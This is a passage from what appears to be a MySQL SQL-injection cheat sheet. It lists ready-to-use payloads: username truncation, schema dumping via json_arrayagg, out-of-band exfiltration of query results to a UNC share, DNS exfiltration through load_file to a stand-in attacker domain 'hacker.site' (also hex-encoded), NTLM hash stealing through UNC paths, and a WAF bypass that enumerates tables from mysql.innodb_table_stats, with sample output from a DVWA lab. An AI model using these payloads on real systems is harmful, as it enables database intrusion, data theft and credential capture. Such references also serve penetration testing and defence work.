 Payload: `username = "admin               a"`


## MYSQL json_arrayagg

Requirement: `MySQL >= 5.7.22`

Use `json_arrayagg()` instead of `group_concat()` which allows less symbols to be displayed
* group_concat() = 1024 symbols
* json_arrayagg() > 16,000,000 symbols

```sql
SELECT json_arrayagg(concat_ws(0x3a,table_schema,table_name)) from INFORMATION_SCHEMA.TABLES;
```


## MYSQL Out of Band

```powershell
select @@version into outfile '\\\\192.168.0.100\\temp\\out.txt';
select @@version into dumpfile '\\\\192.168.0.100\\temp\\out.txt
```

### DNS Exfiltration

```sql
select load_file(concat('\\\\',version(),'.hacker.site\\a.txt'));
select load_file(concat(0x5c5c5c5c,version(),0x2e6861636b65722e736974655c5c612e747874))
```

### UNC Path - NTLM Hash Stealing

```sql
select load_file('\\\\error\\abc');
select load_file(0x5c5c5c5c6572726f725c5c616263);
select 'osanda' into dumpfile '\\\\error\\abc';
select 'osanda' into outfile '\\\\error\\abc';
load data infile '\\\\error\\abc' into table database.table_name;
```


## MYSQL WAF Bypass

### Alternative to Information Schema

`information_schema.tables` alternative

```sql
select * from mysql.innodb_table_stats;
+----------------+-----------------------+---------------------+--------+----------------------+--------------------------+
| database_name  | table_name            | last_update         | n_rows | clustered_index_size | sum_of_other_index_sizes |
+----------------+-----------------------+---------------------+--------+----------------------+--------------------------+
| dvwa           | guestbook             | 2017-01-19 21:02:57 |      0 |                    1 |                        0 |
| dvwa           | users                 | 2017-01-19 21:03:07 |      5 |                    1 |                        0 |
...
+----------------+-----------------------+---------------------+--------+----------------------+--------------------------+

mysql> show tables in dvwa;
+----------------+
| Tables_in_dvwa |
+----------------+
| guestbook      |
```